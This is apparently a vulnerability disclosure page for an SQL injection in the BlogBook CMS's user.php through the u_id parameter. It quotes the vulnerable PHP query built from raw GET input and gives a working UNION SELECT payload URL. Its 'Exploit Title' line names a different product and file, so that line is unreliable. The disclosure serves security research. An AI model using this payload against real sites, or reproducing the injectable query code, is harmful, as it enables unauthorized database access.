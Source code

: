 # BlogBook user.php u_id Parameter SQL Injection

**Exploit Title: dingfanzu-CMS saveNewPwd.php username SQL inject**

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows, Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

The BlogBook application is vulnerable to SQL injection via the `u_id` parameter in the `user.php` script. An unauthenticated attacker can exploit this vulnerability by providing a specially crafted `u_id` value in the URL. This allows the attacker to execute arbitrary SQL commands on the backend database, potentially leading to unauthorized data access, modification, or deletion, and in some configurations, remote code execution.

## Vulnerability Point

`blogbook-main/user.php:26`

## Vulnerable Parameter

`u_id`

## Vulnerable Code

```php
  if (isset($_GET['u_id'])) {
                    $link_user_id = $_GET['u_id'];



                    $query = "SELECT * FROM users WHERE user_id=$link_user_id";
                    $select_all_users_query = mysqli_query($connection, $query);


                    while ($row = mysqli_fetch_assoc($select_all_users_query)) {
    
                        $user_id = $row['user_id'];
                         $username = $row['username'];
                        $user_fname = $row['user_firstname'];
                        $user_lname = $row['user_lastname'];
                        $user_mail = $row['user_email'];
                           $user_image = $row['user_image'];
                        $user_role = $row['user_role'];
                        $user_info=$row['user_info'];
    
                        //  $query = "SELECT * FROM categories WHERE cat_id={$user_category_id}";
                        //         $select_categories_id = mysqli_query($connection, $query);
                        //         $cat = mysqli_fetch_assoc($select_categories_id);
                        //         $user_category = $cat['cat_title'];
                    }
                ?>
```
## Payload

`http://localhost/user.php?u_id=-1 UNION SELECT NULL,@@version,NULL,NULL,user(),NULL,NULL,NULL,NULL --`

![user.php sqli](./assets/user_sqli.png)
